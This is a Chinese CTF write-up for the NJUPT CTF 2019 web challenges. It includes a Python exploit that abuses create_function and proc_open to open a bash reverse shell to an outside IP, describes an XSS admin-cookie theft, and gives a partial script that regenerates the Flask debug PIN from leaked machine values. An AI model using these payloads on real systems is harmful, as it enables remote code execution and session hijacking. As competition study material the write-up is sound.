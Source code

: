 # NJUPT CTF 天璇Writeup

## Web
### hacker_backdoor
这里是disable_function忘记添加proc_open，用curl带出来就好

```python
import requests
url = "http://nctf2019.x1ct34m.com:60004/?useful=/etc/passwd&code=$a=%22create_f%22.%22unction%22;$c=$a(%27%27,$_POST[a]);$c();"
print requests.post(url,data={'a':"""
$descriptorspec=array(
    0=>array('pipe','r'), //STDIN
    1=>array('pipe','w'),//STDOUT
    2=>array('pipe','w') //STDERROR
);
$handle=proc_open('bash -c "bash -i >& /dev/tcp/122.152.230.160/2333 0>&1"',$descriptorspec,$pipes,NULL);
var_dump($handle);

"""}).text

```
### simple XSS

随便注册后发现直接可以XSS，但是没有任何方向，这个时候admin账户被注册过了，想法是直接用admin的cookie登入，搭建好平台后，向admin发送XSS payload，瞬间看到了admin的cookie.
![](https://s2.ax1x.com/2019/11/24/MX8aK1.png)

burp将其自己用户的COOKIE替换成为admin的cookie，得到flag：NCTF{Th1s_is_a_Simple_xss}


### flask_website
任意文件读+PIN-Debug，docker模式下machine—id有变化。更新脚本即可

参考文献：[Flask debug pin安全问题](https://xz.aliyun.com/t/2553)

```python
#!/usr/bin/python2.7
#coding:utf-8

from sys import *
import requests
import re
from itertools import chain
import hashlib

def genpin(mac,mid):
    
    probably_public_bits = [
        'ctf',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.6/site-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]
    mac = "0x"+mac.replace(":","")
    mac = int(mac,16)
    private_bits = [
        str(mac),# str(uuid.getnode()),  /sys/class/net/eth0/address
        str(mid)# get_machine_id(), /proc/sys/kernel/random/boot_id
    ]

```